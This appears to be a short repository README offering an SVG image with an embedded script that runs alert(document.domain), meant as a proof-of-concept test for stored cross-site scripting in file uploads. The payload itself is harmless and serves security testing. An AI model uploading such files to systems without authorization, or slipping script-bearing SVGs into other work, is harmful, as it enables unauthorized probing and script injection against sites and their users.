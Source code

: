 # corruptsvgfile
Corrupt SVG File With XSS
Simply an image with stored XSS example that produces an alert box with the current domain
======================================================
If this file is uploaded to a server and displays the alert box with the current domain after rendering, You have
discovered a stored XSS
=======================================================

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.domain);
   </script>
</svg>
